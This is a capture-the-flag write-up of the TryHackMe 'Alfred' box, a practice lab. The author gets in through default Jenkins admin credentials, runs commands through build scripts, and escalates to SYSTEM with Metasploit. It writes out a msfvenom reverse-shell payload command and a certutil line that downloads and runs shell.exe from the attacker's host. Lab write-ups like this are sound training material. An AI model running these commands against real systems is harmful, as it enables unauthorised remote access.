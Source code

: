 ```yaml
---
title: "THM - Alfred"
date: 2021-02-11T14:26:15+01:00
categories: ["hacking", "write-ups"]
tags: [THM]
featuredImage: "/images/2021/02/Alfred_Logo.png"
---
```

Without further ado, let's get started and see what this box is made of!

## Recon

From the box logo and description we can discover that :

* Target runs Windows ;
* Target runs Jenkins.

Let's go!

## Enum

Let's start a basic nmap scan :

```text
sudo nmap -T4 -A -p- -oA nmap $target_ip
```

Unfortunately, nmap will complain that `Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn`.

No problem, let's fire our scan a bit differently :

```text
sudo nmap -T4 -A -p- -Pn -oA nmap $target_ip
```

This time, it will work :

```text
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-11 13:57 CET
Nmap scan report for $target_ip
Host is up (0.034s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2020-10-02T14:42:05
|_Not valid after:  2021-04-03T14:42:05
|_ssl-date: 2021-02-11T12:59:27+00:00; +12s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1|Vista|Phone (90%)
OS CPE: cpe:/o:microsoft:windows_server_2008 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 Professional or Windows 8 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 11s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.99 ms 10.11.0.1
2   34.29 ms $target_ip

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.35 seconds
```

We discover the following :

* A web server running on port 80 : Microsoft IIS httpd 7.5 ;
* Another web server on port 8080 (probably Jenkins backend / admin area) : Jetty 9.4.z-SNAPSHOT ;
* RDP service running on port 3389.

![Jenkins Admin Login Page](/images/2021/02/jenkins_login.png)

Since we found a few web servers, I'll fire `nikto` and `dirbuster` on them in order to see if we find anything interesting.

Our various scans and manually browsing confirmed that we are up against a `Windows machine` running `Jenkins`.

While our extra scans our running, we can search if any known vulnerability applies to the services we found. For this, I recommend using `searchsploit` if you want to stay in the CLI, or search engines for a more graphical approach.

Unfortunately, we don't find anything relevant nor obvious. Let's see how we can attack this box.

## Exploitation

Since we haven't found anything huge, we'll try to login to the admin panel using default and / or well known credentials. This is a brute force attack!

It happens, that we are lucky, some lazy admin used `admin` // `admin` as credentials! It was my first try, I didn't even had to fire `Burp Intruder`, great!

![Jenkins Admin Panel](/images/2021/02/jenkins_admin.png)

From here, I am thinking there may be a way to upload a malicious file from the admin panel, in order to gain access to the system (spoiler: nope).

We also found one user and it's password : maybe this is a system user (which I doubt).

By browsing the Jenkins area (yes, recon again!), we notice the following :

* Jenkins version : Jenkins 2.190.1 core and libraries

then :

```text
Started by user admin
Running as SYSTEM
Building in workspace C:\Program Files (x86)\Jenkins\workspace\project
[project] $ cmd /c call C:\Users\bruce\AppData\Local\Temp\jenkins8034204804437582227.bat

C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>exit 0 
Finished: SUCCESS
```

It shows us that a build script is running and that it is just running the `whoami` command as user `bruce`. This is not huge, but it migh give us a shell as Bruce, and probably its flag too!

So, let's try to modify the build script in order to get Bruce's flag, that should be easy.

By simple browsing into the project and configuring the project, we'll try to get the flag like so :

![Jenkins Admin Panel](/images/2021/02/jenkins_config_build.png)

Now, we build it and check the logs :

![Jenkins User Flag](/images/2021/02/jenkins_user_flag.png)


And it worked! As I spoiled, I was wrong. No file upload from here, but an indirect shell!

### PrivEsc

Ok, now that we have confirmed that we can run commands as Bruce on the system, we have to think of a way to get a shell. This part shouldn't be hard : I am thinking like downloading a malicious shell then running it via the build system. However, that alone, won't help us much... it will make it easier to have a direct shell, but it won't suffice to get full control.

However, one easy solution would be to get a meterpreter shell and use msfconsole...

Before going any further, I will run another build doing a `dir "C:\"`. I just want to check the system architecture (be sure check my [cheatsheets](https://www.masoopy.com/cheatsheets/) if you are lost during a phase). It might prove useful later on, if I want to craft something with `msfvenom`.

Since we know our arch is 64 bits, let's craft our shell :

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=$attacker_ip LPORT=10443 -f exe > shell.exe`

Now we run a basic HTTP server from our attacking machine to host the shell :

`sudo python2 -m SimpleHTTPServer 80`

On our target machine, we edit the build script so that :

1. it downloads our malicious file : `certutil -urlcache -f http://$attacker_ip/shell.exe C:\Users\Bruce\Desktop\shell.exe`
2. it runs it : `C:\Users\Bruce\Desktop\shell.exe`

Saving the changes, and back on our attacking machine, we run `msfconsole` and `use exploit/multi/handler`, set the correct options. In our case, we listen on port 10443.

Back again on the Jenkins' machine, hit the build button, a meterprter shell as Bruce should now open :

![Jenkins meterpreter](/images/2021/02/jenkins_meterpreter.png)

Thanks to power of metasploit, a simple `getsystem` will give us root:

![Jenkins root](/images/2021/02/jenkins_user_root.png)

NB : this is where MetaSploit is clearly TOO powerful! I gained root, using only one command... I have no idea what went on behind the scenes! I clearly need to look for a manual way to do that. But this will be for another time.


Since we are "root", let's search for the flag :

```text
search -f root.txt
```
```text
Found 1 result...
    c:\Windows\System32\config\root.txt (70 bytes)
```

then : 

```text
cat "c:\Windows\System32\config\root.txt"
```

![Jenkins Root Flag](/images/2021/02/jenkins_root_flag.png)


## Conclusion

This was a fun box, pretty straight forward, where a simple misconfiguration, led to a fully remote access... again!